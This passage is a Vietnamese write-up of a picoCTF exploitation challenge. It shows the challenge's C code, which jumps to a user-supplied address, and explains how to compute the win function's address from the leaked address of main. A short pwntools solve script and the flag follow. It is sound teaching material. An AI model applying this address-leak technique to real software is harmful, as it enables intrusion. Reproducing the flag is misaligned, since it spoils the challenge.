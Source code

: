 ```c
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Thì cơ bản là chương trình cho ta địa chỉ hàm main và yêu cầu ta tìm địa chỉ hàm win để nhảy vào. Ở đây mình check địa chỉ hàm main là 0x133d và hàm win là 0x12a7 

![image](https://hackmd.io/_uploads/Hy3Yt9c21e.png)

Từ đó mình tính được khoảng cách hai hàm như sau 0x133d - 0x12a7 = 0x96. Vậy lúc này chỉ cần trừ địa chỉ hàm main được cho với 0x96 là xong 

![image](https://hackmd.io/_uploads/rJM7o55hkg.png)

Từ đó mình xây dựng solve script sau 

```python
from pwn import *
p = remote("rescued-float.picoctf.net", 57078)

out = p.recvline().decode()
main = int(out.split("0x")[1], 16)
win = main - 0x96

print(f"win() address: {hex(win)}")
p.sendline(hex(win))
print(p.recvall().decode())
```

![image](https://hackmd.io/_uploads/B1xknc9nJg.png)

`Flag: picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
`
